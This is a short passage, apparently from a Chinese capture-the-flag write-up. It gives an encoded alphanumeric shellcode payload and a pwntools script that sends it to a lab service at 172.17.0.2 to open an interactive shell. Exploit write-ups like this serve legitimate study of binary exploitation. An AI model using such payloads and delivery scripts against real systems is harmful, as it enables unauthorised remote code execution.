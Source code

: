 ![Alt](img/shellcode变形5.png)

最后输出的payload内容为:`PYIIIIIIIIIIIIIIII7QZjAXP0A0AkAAQ2AB2BB0BBABXP8ABuJIp1kyigHaX06krqPh6ODoaccXU8ToE2bIbNLIXcHMOpAA`

![Alt](img/shellcode变形6.png)

编写脚本获取shell：

```python
  #!/usr/bin/python
  #coding:utf-8

  from pwn import *
  from base64 import *

  context.update(arch = 'i386', os = 'linux', timeout = 1)

  io = remote('172.17.0.2', 10001)

  shellcode = b64decode("PYIIIIIIIIIIIIIIII7QZjAXP0A0AkAAQ2AB2BB0BBABXP8ABuJIp1kyigHaX06krqPh6ODoaccXU8ToE2bIbNLIXcHMOpAA")
  print io.recv()
  io.send(shellcode)  
  print io.recv()
  io.interactive()
```
